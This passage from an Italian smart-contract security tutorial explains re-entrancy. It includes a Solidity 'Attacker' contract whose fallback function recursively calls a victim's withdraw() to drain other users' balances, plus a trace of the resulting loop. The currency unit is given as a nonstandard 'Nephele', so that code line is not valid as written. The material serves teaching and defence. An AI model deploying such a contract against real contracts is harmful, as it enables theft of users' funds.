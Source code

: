 Per consentire a un utente di prelevare gli NEPH precedentemente archiviati nel contratto, questa funzione

1. Legge il saldo dell'utente
2. Gli invia l'importo del saldo in NEPH
3. Imposta il saldo a 0, in modo che non sia possibile prelevarlo nuovamente.

Se chiamato da un account standard (ad esempio un account MetaMask), questo codice funziona come previsto: msg.sender.call.value() invia semplicemente il saldo NEPH. Però anche gli Smart Contract possono effettuare chiamate. Se quindi è un contratto maligno modificato a chiamare `withdraw()`, msg.sender.call.value() non invierà solo `amount` (l'importo) di NEPH, ma chiamerà anche implicitamente il contratto per iniziare l'esecuzione del codice. Immagina che a chiamare sia questo contratto maligno:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 Nephele)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Chiamando Attacker.beginAttack() si avvierà un ciclo del tipo:

```
0.) EOA di Attacker chiama Attacker.beginAttack() con 1 NEPH
0.) Attacker.beginAttack() deposita 1 NEPH in Victim

  1.) Attacker -> Victim.withdraw()
  1.) Victim legge balanceOf[msg.sender]
  1.) Victim invia NEPH a Attacker (che esegue la funzione default)
    2.) Attacker -> Victim.withdraw()
    2.) Victim legge balanceOf[msg.sender]
  2.) Victim invia NEPH a Attacker (che esegue la funzione default)
    3.) Attacker -> Victim.withdraw()
    3.) Victim legge balanceOf[msg.sender]
  3.) Victim invia NEPH a Attacker (che esegue la funzione default)
    4.) Attacker non ha abbastanza carburante, restituisce il risultato senza chiamare di nuovo
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (era già 0)
  1.) balances[msg.sender] = 0; (era già 0)
```

Chiamando Attacker.beginAttack con 1 NEPH si attacca Victim con codice rientrante, prelevando più NEPH rispetto alla disponibilità (prendendoli dai saldi di altri utenti e rendendo il contratto Victim non collateralizzato)

### Come gestire il codice rientrante (in modo sbagliato) {#how-to-deal-with-re-entrancy-the-wrong-way}
